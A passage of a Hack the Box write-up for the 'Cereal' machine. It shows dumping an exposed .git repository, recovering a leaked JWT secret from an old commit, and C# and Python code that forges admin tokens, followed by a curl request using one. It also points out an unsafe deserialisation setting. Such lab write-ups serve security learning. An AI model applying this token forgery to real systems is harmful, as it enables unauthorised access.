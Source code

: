 # Source Code

## Git Dumper

We know from our [[Writeups/Hack the Box/Boxes/Cereal/5 - Enumeration#source cereal htb|gobuster scan]] that there is a `.git` folder on the `source.cereal.htb` domain. So we can try and download the source code for the site using the tool `gitdumper`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/cereal]
└─$ /opt/git-dumper/git-dumper.py http://source.cereal.htb/.git site/
```

This downloads all the code, and we can open it in VSCode.

Running `git log` shows us an interesting commit:

![[Pasted image 20210605185207.png]]

We can view the details with `git show`:

![[Pasted image 20210605185310.png]]

There are also some interesting files in the `.gitignore` - namely, `cereal.db`, which is likely the name of the database file being used. It's not in the downloaded repository.

## Controllers + Routes

I was unfamiliar with .NET going into this, but I'd done a little C# and a lot of Laravel - the first thing I went looking for to try and understand the application was Controllers & Routes.

`site/Controllers/RequestsController.cs` has what looks like controller methods - 

![[Pasted image 20210605191522.png]]

I couldn't find a corresponding 'route' pointing to these methods, like in Laravel, so I assumed this is the entire route definition. However, I did find the `site/ClientApp/src/_components/PrivateRoute.jsx` component, which seems to check for authentication:

![[Pasted image 20210605191834.png]]

I looked for instances of the private route component, and found a few more routes in the `site/ClientApp/src/App/App.jsx` file:

![[Pasted image 20210605191917.png]]

This shows us there is an authenticated `/admin` page. It is defined by `site/ClientApp/src/AdminPage/AdminPage.jsx` and seems to render Cereal Requests from the database:

![[Pasted image 20210605192048.png]]

`site/ClientApp/src/HomePage/HomePage.jsx` seems to be a submission form, and tells us which fields we need to submit a cereal:

![[Pasted image 20210605212024.png]]

The `site/ClientApp/src/_services/request.service.js` file tells us a bit about request methods, also:

![[Pasted image 20210605212547.png]]

## Authentication

Auth seems to be handled mostly by the `site/Services/UserService.cs` file, which generates JWT tokens:

![[Pasted image 20210605192151.png]]

Users seem to be saved locally using Javascript, as shown in the `site/ClientApp/src/_services/authentication.service.js` file:

![[Pasted image 20210605212657.png]]

We can use the token in the repository's old commits to craft a JWT token

### .NET

I made an attempt to generate a JW with C# code, looking at these links for reference:
- https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/main-and-command-args/
- https://stackoverflow.com/questions/20392243/run-c-sharp-code-on-linux-terminal
- https://stackoverflow.com/questions/18677837/decoding-and-verifying-jwt-token-using-system-identitymodel-tokens-jwt

This was the code I used, lifted from the main project and deleting the references to other unnecessary libraries:

```csharp
using System;
using System.Collections.Generic;
using System.IdentityModel.Tokens.Jwt;
using System.Security.Claims;

namespace TokenGeneration {
    class GenerateToken {
        static void Main(string[] args)
        {
            var tokenHandler = new JwtSecurityTokenHandler();
            var key = Encoding.ASCII.GetBytes("secretlhfIH&FY*#oysuflkhskjfhefesf");

            //create token descriptor for user id 1
            var tokenDescriptor = new SecurityTokenDescriptor
            {
                Subject = new ClaimsIdentity(new Claim[]
                {
                    new Claim(ClaimTypes.Name, "1")
                }),
                Expires = DateTime.UtcNow.AddDays(7),
                SigningCredentials = new SigningCredentials(new SymmetricSecurityKey(key), SecurityAlgorithms.HmacSha256Signature)
            };

            var token = tokenHandler.CreateToken(tokenDescriptor);
            Console.WriteLine(tokenHandler.WriteToken(token));
        }
    }
}
```

I tried `mcs` to compile it, but it was missing a dependency:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/cereal]
└─$ mcs -out:gentoken.exe gentoken.cs 
gentoken.cs(3,14): error CS0234: The type or namespace name `IdentityModel' does not exist in the namespace `System'. Are you missing an assembly reference?
Compilation failed: 1 error(s), 0 warnings
```

I knew I could resolve this on Windows pretty easily with Visual Studio, but didn't have it setup on Linux. I considered [installing .NET](https://docs.microsoft.com/en-us/dotnet/core/install/linux-ubuntu) but didn't think it was worth fiddling with if there was an easier way. I also didn't want to set up a Windows VM, so looked to see if I could use Python instead.

### Python

I used the `jwt` library for this: [https://pyjwt.readthedocs.io/en/latest/](https://pyjwt.readthedocs.io/en/latest/)

After a bit of experimenting with JWT tokens I came to the following code to spit a valid one out:

```python
import jwt
from datetime import datetime, timedelta

#take key from old git code - commit ID 8f2a1a88f15b9109e1f63e4e4551727bfb38eee5
key = "secretlhfIH&FY*#oysuflkhskjfhefesf"

#encode with HMAC-SHA-256
encoded = jwt.encode({"exp": datetime.utcnow() + timedelta(days=7), "name": 1}, key, algorithm="HS256")

print(encoded)
```

This can now be used when making requests, for example to `/requests`. This is what I used to build up a valid one - one of the key things that caused issues was not giving the JWT an expiry, which I thought was interesting - `WWW-Authenticate: Bearer error="invalid_token", error_description="The token has no expiration"`

## IP Whitelist

Several functions have the decorator:

```csharp
[Authorize(Policy = "RestrictIP")]
```

This means those functions are only accessible by localhost, i.e. the box itself. We can see this if we request a cereal:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/cereal/test-www]
└─$ curl -i -s -k -X $'GET' \
    -H $'Host: 10.10.10.217' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2MTgzMDA5ODMsIm5hbWUiOjF9.VgWvwKp0RMrr4NLnJxnIWoUJII3JQlUJecyFVpDlXvo' \
    $'https://10.10.10.217/requests?id=11'
HTTP/2 403 
server: Microsoft-IIS/10.0
strict-transport-security: max-age=2592000
x-rate-limit-limit: 5m
x-rate-limit-remaining: 148
x-rate-limit-reset: 2021-04-06T09:46:42.2058184Z
x-powered-by: Sugar
date: Tue, 06 Apr 2021 09:42:08 GMT
```

Even with a valid token, we receive a `403` status code.

This means that, to make requests to these controller methods, we must force the box to make a request on our behalf - this is known as a Server Side Request Forgery (SSRF).

## Requests Controller

The file `Controllers/RequestsController.cs` defines the Cereal Requests logic, and has a method that deserialises a JSON. This corresponds to the `/requests?id={ID}` route.

```csharp
var cereal = JsonConvert.DeserializeObject(json, new JsonSerializerSettings
{
	TypeNameHandling = TypeNameHandling.Auto
});
```

However, the route is subject to the IP whitelist policy. This means it is only accessible by the box itself.